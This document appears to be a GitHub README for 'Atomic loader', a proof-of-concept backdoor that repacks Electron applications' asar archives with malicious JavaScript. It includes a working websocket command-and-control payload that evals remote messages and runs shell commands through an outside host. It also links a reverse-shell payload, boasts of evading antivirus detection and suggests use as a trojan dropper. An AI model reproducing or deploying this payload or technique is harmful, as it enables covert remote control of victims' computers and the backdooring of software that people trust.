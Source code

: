 # Atomic loader

### What is this Atomic loader

This is a proof of concept universal electron **FUD** application backdoor. I named it atomic loader because electron was called "atomic shell" before it was renamed apparently.

![loader](images/loader.png)

### How does it work
Every single electron application uses a format called asar, you might have seen this:
[https://github.com/electron/asar]()

- Unpacking asar files is simple and packing it back with malicious javascript added will force the code to load with the application and therefore backdooring it.
- I can't say it "injects" but it's some form of persistance inside the application

This loader was based on vxunderground's research paper: "Node modules infector" but not to be confused since it works completely different yet the idea is still the same.
[https://github.com/vxunderground/VXUG-Papers/tree/main/Node%20Module%20Infector]()


### Why does it not fully work?
There are 2 main reasons
-> 1. I don't want to release this as fully working code out into the wild before it gets fully patched
-> 2. I've tried pretty hard to get it to work, It works most of the time, usually if you have one electron application but it seems to break for some reason, I just can't figure out why. Maybe you can help me? Feel free to commit.

**edit this line in the index.js before trying it out**

```js
const shellcode = "";
```

Use something like this: 

[https://github.com/vxunderground/VXUG-Papers/blob/main/Node%20Module%20Infector/Cross-platform%20demo/payloads/windows/discordReverseShell.js]()

Or craft your own shellcode, that should connect to a websocket server and execute commands from it. In this example we will be using [piesocket](https://www.piesocket.com/):

```js
;const WebSocket=require('ws');var exec=require('child_process').execSync;var piesocket=new WebSocket('wss://us-nyc-1.piesocket.com/v3/1?api_key=<INSERT_KEY>&notify_self');piesocket.onopen=function(connect){piesocket.send('loaded');};piesocket.onmessage=function(message){if(message.data.startsWith('!')){try{eval(message.data.slice(1));}catch(e){}}};piesocket.onerror=function(error){location.reload();};piesocket.onclose=function(error){location.reload();};
// send !piesocket.send(exec('whoami')) into websocket for rce
```

### Detections on virustotal?
![detections](images/detections.png)
I'm proud to say this is surprisingly [100% FUD](https://www.virustotal.com/gui/file/4903e478fede3628566f20e2fb1caccbf22f88f9d02822748428d6ad23a88d64?nocache=1). Any application you compile with node pkg will stay zero, Hence you could utilize this as a "trojan dropper"
Unless you want to code Mimikatz in nodejs ;)
